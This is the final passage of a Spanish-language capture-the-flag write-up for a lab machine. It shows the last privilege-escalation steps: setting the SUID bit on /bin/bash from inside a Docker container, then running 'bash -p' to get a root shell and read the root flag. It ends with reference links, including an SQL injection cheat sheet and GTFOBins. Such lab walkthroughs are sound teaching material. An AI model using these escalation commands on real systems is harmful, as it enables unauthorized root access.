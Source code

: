 Ejecuta el mismo comando para crear el contenedor de nuevo y dale los **permisos SUID** a la **Bash**:
```bash
root@9dce80bb4638:/# chmod u+s /bin/bash
root@9dce80bb4638:/# exit
exit
```

Una vez que salgas, revisa otra vez los permisos de la **Bash**:
```bash
elliot@TheHackersLabs-Runners:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Ya tiene **permisos SUID**.

Ejecuta la **Bash** con privilegios:
```bash
elliot@TheHackersLabs-Runners:~$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
blog  blog.sql	docker-compose.yml  Dockerfile	root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://portswigger.net/web-security/sql-injection/cheat-sheet
* https://github.com/DominicBreuker/pspy
* https://gtfobins.github.io/gtfobins/docker/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
